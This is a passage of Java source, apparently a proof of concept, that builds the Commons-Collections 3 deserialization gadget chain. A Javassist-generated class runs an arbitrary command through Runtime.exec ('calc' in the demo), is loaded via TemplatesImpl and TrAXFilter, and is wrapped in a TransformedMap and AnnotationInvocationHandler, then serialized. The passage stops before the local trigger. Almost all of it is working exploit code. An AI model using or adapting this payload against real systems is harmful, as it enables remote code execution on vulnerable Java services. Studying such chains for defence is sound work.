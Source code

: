 ```java

public class CommonCollections3{
    public static void setFieldValue(Object obj, String fieldName, Object value) throws Exception {
        Field field = obj.getClass().getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(obj, value);
    }
    public static byte[] getTemplatesImpl(String cmd) {
        try {
            ClassPool pool = ClassPool.getDefault();
            CtClass ctClass = pool.makeClass("snakin");
            CtClass superClass = pool.get("com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet");
            ctClass.setSuperclass(superClass);
            CtConstructor constructor = ctClass.makeClassInitializer();
            constructor.setBody("  Runtime.getRuntime().exec(\"" + cmd + "\");" );
            byte[] bytes = ctClass.toBytecode();
            ctClass.defrost();
            return bytes;
        } catch (Exception e) {
            e.printStackTrace();
            return new byte[]{};
        }
    }

    public static void main(String[] args) throws Exception {
        byte[] code = getTemplatesImpl("calc");
        byte[][] bytecodes = {code};

        TemplatesImpl obj = new TemplatesImpl();
        setFieldValue(obj, "_bytecodes", bytecodes);
        setFieldValue(obj, "_name", "HelloTemplatesImpl");
        setFieldValue(obj, "_tfactory", new TransformerFactoryImpl());

        Transformer[] fakeTransformers = new Transformer[] {new ConstantTransformer(1)};
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(TrAXFilter.class),
                new InstantiateTransformer(
                        new Class[] { Templates.class },
                        new Object[] { obj })
        };

        Transformer transformerChain = new ChainedTransformer(fakeTransformers);

        Map innerMap = new HashMap();
        innerMap.put("value", "xxxx");
        Map outerMap = TransformedMap.decorate(innerMap, null, transformerChain);

        Class clazz = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor construct = clazz.getDeclaredConstructor(Class.class, Map.class);
        construct.setAccessible(true);
        InvocationHandler handler = (InvocationHandler) construct.newInstance(Retention.class, outerMap);

        setFieldValue(transformerChain, "iTransformers", transformers);
        // ==================
        // 生成序列化字符串
        ByteArrayOutputStream barr = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(barr);
        oos.writeObject(handler);
        oos.close();

        // 本地测试触发
```